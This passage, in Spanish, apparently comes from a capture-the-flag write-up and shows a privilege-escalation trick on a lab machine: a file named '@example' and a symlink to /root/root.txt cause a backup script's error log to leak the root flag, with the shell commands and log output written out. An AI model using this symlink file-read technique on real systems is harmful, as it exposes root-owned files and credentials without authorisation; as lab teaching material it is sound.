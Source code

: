 Como se están reportando los errores, puedo tratar de generar un error y crear un enlace simbólico para que un archivo apunte a la segunda flag mientras leo continuamente las últimas líneas de ```error.txt```

```null
bash-4.2$ touch @example
touch @example
bash-4.2$ ln -s -f /root/root.txt example
```

```null
[ldapuser@ctf backup]$ tail -f error.log 

WARNING: No more files
70de1bd8f0ad63bacdf53aab29466ad4

tail: error.log: file truncated
```
